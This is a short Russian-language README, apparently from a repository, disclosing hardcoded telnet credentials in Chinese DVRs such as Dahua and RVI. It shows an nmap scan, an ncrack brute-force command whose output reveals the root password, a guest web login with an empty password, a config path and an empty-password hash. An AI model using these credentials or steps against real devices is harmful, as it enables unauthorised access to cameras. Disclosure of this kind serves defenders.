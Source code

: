 # Hardcoded логин\пароль от telntet в китайских DVR, таких Dahua, RVI.
[English](README.md)[Русский](README-ru.md)

Так же они могут в продаже под другими брендами.

Nmap report выглядит любопытно:
```
Nmap scan report for 192.168.100.15
Host is up (0.0050s latency).
Not shown: 65527 closed ports

PORT      STATE    SERVICE        VERSION

23/tcp    open     telnet         BusyBox telnetd
81/tcp    open     http           uc-httpd 1.0.0 #Web-ui, You can get guest access with guest\<empty> credentials
445/tcp   filtered microsoft-ds
4090/tcp  open     ssl/omasgport?
9527/tcp  open     unknown
9528/tcp  open     unknown
34567/tcp open     dhanalakshmi? #This port using for remote veiw in CMS
34599/tcp open     unknown

Device type: WAP
Running: Linux 2.4.X
OS CPE: cpe:/o:linux:linux_kernel:2.4.36
OS details: DD-WRT v24-sp1 (Linux 2.4.36)
Network Distance: 5 hops
Service Info: Host: LocalHost
```
С помощью ncrack я "восстановил" учетные данные для telnet.
```
ncrack 192.168.100.15:23 -U logins.txt -P passwords.txt
Starting Ncrack 0.6 ( http://ncrack.org ) at 2018-05-26 13:06
Discovered credentials for telnet on 192.168.100.15 23/tcp:
192.168.100.15:23 23/tcp telnet: 'root' 'xc3511'
Ncrack done: 1 service scanned in 27.06 seconds.
Ncrack finished.
```
Конфигурационные файлы Web-ui хранятся в /mnt/mtd/Config/, но я не разобрался с хэшированым паролем в файле Account1.
Так же, в моем случае был крайне обрезаный BusyBox и не было возможности использовать sed за замены значения в строке. Хэш пустого пароля - tlJwpbo6.

